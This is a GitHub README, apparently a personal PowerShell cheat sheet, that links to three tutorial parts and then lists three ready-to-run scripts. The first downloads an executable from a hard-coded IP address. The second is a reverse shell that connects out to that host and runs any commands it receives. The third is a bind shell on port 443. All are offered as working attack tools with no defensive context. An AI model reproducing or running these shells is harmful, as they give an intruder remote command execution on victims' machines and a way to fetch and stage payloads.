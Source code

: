 # PowerShell

![powershell-icon-4](https://user-images.githubusercontent.com/92652606/140179580-4de847c5-d5a5-4e05-8924-4cb36c060225.png)

1. [PowerShell Part 1](https://github.com/Th3Mast3rM1nd/PowerShell/blob/main/Powershell_Part1.md)
2. [PowerShell Part 2](https://github.com/Th3Mast3rM1nd/PowerShell/blob/main/Powershell_Part2.md)
3. [Powershell Part 3](https://github.com/Th3Mast3rM1nd/PowerShell/blob/main/Powershell_Part3.md)

```powershell
Write-Output "Download Files"

$url = "http://192.168.119.183:8080/wget.exe"
$path = ".\wget.exe"

(New-Object System.Net.WebClient).DownloadFile($url,$path) # script to download files 

```
```powershell
# reversshell
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.183',1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
    }
$client.Close()

```

```powershell
# blind shell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0' , 443 );
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
    }
$client.Close();
$listener.Stop()
```
